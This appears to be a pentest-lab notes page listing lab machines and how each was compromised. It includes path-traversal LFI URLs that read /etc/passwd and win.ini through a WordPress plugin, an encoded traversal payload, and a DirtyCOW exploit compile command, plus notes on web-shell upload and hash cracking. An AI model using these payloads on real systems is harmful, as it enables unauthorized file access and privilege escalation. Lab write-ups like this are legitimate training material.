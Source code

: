 * See the config file and passwd hash with username, crack in john
* PE with dirtycow \[CVE-2016-5195]
* Compile with

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

### Dolphin Wordpress

* Dolphin <7.3.2 Auth bypass / RCE exploit by Ahmed Sultan

### Codiad Impresscms

```
10.10.10.10/codiad/data/users.php
```

* Directories found

```
/config.php
/data
/wordspace
```

* Upload web shell
* Found SSH creds

### Techblog (Wordpress Siteimport Exploit)

* ![wp](https://user-images.githubusercontent.com/75596877/129896695-6c92634a-f5cc-4c47-96c3-a9fbc3dfcd1d.png)
* LFI

```
http://10.16.1.3/wp-content/plugins/site-import/readme.txt
http://10.16.1.3/wp-content/plugins/site-import/admin/page.php
http://10.16.1.3/wp-content/plugins/site-import/admin/page.php?url=..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\windows\win.ini
http://10.16.1.3/wp-content/plugins/site-import/admin/page.php?url=../../../../../../../../../../etc/passwd
wp-config.php file #has the login creds
```

### Backupadmin

* Priv Esc on box with Amanda running, view by -LFI Exploit

```
fileinfo.php?sha1=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

* ![Screenshot 2021-08-18 081521](https://user-images.githubusercontent.com/75596877/129896411-01115472-b6f1-4219-b143-f55cdb3c2b7d.png)
* ![Screenshot 2021-08-18 081521](https://user-images.githubusercontent.com/75596877/129896519-57dfb207-eaa6-4846-93de-c73a77d4e5ef.png)
